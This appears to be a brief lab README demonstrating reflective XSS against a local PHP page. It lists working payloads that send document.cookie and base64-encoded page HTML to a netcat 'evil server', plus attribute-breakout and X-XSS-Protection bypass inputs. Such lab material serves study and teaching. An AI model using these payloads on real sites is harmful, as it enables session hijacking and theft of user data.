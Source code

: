 # Reflective XSS

1. Start the target server: `php -S localhost:8000`

2. Start the evil server: `nc -v -l -p 9999`

3. Make sure xss works:
  * `http://localhost:8000/target.php?foo=<script>alert(1);</script>`

4. Exploits:
  * steal cookie: `<script>new Image().src="http://localhost:9999/"%2bdocument.cookie;</script>`
  * get html: `<script>new Image().src="http://localhost:9999/"%2bbtoa(document.children[0].innerHTML);</script>`
  * to target input: `http://localhost:8000/target.php?bar="><script>alert(1);</script>`
  * vulnerability in X-XSS-Protection header: `http://localhost:8000/target2.php?<script> x=2; </script>`

Notes:
* see cheatsheet for xss snippits: [https://html5sec.org/](cheatsheet)
